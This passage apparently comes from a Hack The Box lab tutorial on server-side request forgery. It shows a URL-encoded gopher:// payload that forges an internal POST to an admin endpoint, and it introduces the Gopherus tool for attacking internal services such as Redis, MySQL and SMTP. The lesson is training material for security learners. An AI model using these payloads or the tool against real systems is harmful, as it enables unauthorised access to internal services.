 ```http
POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```

As we can see, the internal admin endpoint accepts our provided password, and we can access the admin dashboard:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_exploit_5.png)

We can use the`gopher` protocol to interact with many internal services, not just HTTP servers. Imagine a scenario where we identify, through an SSRF vulnerability, that TCP port 25 is open locally. This is the standard port for SMTP servers. We can use Gopher to interact with this internal SMTP server as well. However, constructing syntactically and semantically correct gopher URLs can take time and effort. Thus, we will utilize the tool [Gopherus](https://github.com/tarunkant/Gopherus) to generate gopher URLs for us. The following services are supported:

```ad-summary
- MySQL
- PostgreSQL
- FastCGI
- Redis
- SMTP
- Zabbix
- pymemcache
- rbmemcache
- phpmemcache
- dmpmemcache
```

To run the tool, we need a valid Python2 installation. Afterward, we can run the tool by executing the Python script downloaded from the GitHub repository:


```shell-session
smoothment@htb[/htb]$ python2.7 gopherus.py

 ________ .__
 / _____/ ____ ______ | |__ ___________ __ __ ______
/ \ ___ / _ \\____ \| | \_/ __ \_ __ \ | \/ ___/
\ \_\ ( <_> ) |_> > Y \ ___/| | \/ | /\___ \
 \______ /\____/| __/|___| /\___ >__| |____//____ >
 \/ |__| \/ \/ \/

 author: $_SpyD3r_$

usage: gopherus.py [-h] [--exploit EXPLOIT]

optional arguments:
 -h, --help show this help message and exit
 --exploit EXPLOIT mysql, postgresql, fastcgi, redis, smtp, zabbix,
 pymemcache, rbmemcache, phpmemcache, dmpmemcache
```
